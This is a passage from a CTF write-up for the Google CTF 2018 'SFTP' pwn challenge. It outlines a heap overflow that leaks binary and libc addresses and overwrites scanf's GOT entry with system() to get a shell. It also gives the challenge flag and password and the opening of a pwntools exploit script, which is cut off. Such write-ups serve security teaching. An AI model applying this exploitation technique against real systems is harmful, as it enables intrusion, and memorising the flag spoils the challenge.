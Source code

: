 ### Code Execution

After verifying our predictions, finding good "victim" and "writer" candidates, we can do the following to achieve code execution (As explained in the "The Exploit" section):
1) Overflowing to the "victim" using the "writer", and overwriting the `char* data` field with the home `directory_entry` struct address.
By doing so we leak an address in the binary when we read the victim's file content!

2) Overflowing to the "victim" using the "writer", and overwriting the `char* data` field with a GOT entry address, allowing us to leak an address in libc when we read the victim's file content!

3) Oveflowing into the "victim" using the "writer", and overwriting the `char* data` field with a the GOT entry address of `__isoc99_scanf()`, and writing the address of `system()` to the "victim" file. 
This will overwrite the `__isoc99_scanf()` GOT entry, with the address of `system()`!

4) Enjoy our sweet shell :)

Flag: `CTF{Moar_Randomz_Moar_Mitigatez!}`

The exploit code attached below is very detailed, I added a lot of documentation to it to make the reading of it more convinient.
(The exploit code is also attached, called `exploit.py`)

[exploit.py](https://github.com/j0nathanj/CTF-WriteUps/blob/master/2018/GoogleCTF-2018/pwn/SFTP/exploit.py)

## Exploit Code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from ctypes import cdll
from itertools import count
from collections import namedtuple
import sys

libc = cdll.LoadLibrary('libc.so.6') # Allow a more accurate/fast function results/calls.
PASSWORD = r'@@=``>QPPP@``=' # Retreived using the `decode.py` Z3-based script.

def exploit(match, do_debug):
	global r
	DEBUG = do_debug 
	
	################################################################################################################################
	#                                                                                                                               #
	#                           [!] Important Note [!]                                                                              #
	# --------------------------------------------------------------------------------                                              #
	#       The `-2` value may vary between locations around the world, since it depends on the server latency as well.             #
	#       If the exploit does not work remotely, try changing the `-2` value to other negative numbers, i.e.: `-0`, `-1`, etc     # 
	#                                                                                                                               #
	#################################################################################################################################

	sleep_until(match.target_time - (-0 if (not DEBUG) else 0)) # Synchronize with the server if it's a remote exploit.	
	if DEBUG:
```